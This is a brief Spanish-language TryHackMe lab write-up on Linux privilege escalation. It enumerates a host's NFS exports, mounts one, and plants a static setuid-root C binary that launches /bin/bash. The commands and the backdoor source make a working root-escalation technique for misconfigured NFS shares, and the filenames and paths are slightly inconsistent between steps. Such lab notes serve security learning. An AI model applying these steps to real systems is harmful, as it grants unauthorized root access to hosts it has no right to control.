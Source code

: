 ### Motamos la share en un dir dentro de /tmp

```
──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ showmount -e 10.10.245.200                         
Export list for 10.10.245.200:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
                                                                                                                    
┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ mkdir /tmp/share                                   
                                                                                                                    
┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ sudo mount -t nfs 10.10.245.200:/home/backup /tmp/share 
                                                                                                                    
┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ 


```

### creamos el backdoor y lo pasamos al share
```
> en kali como root


┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ cat nfs.c
#include<unistd.h>
#include<stdlib.h>
int main() {
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}

┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ gcc -static nfs.c -o nfs

┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ sudo cp nfs2 /tmp/myshare     
                                                                                            
┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ sudo chmod +s /tmp/myshare/nfs2 





```
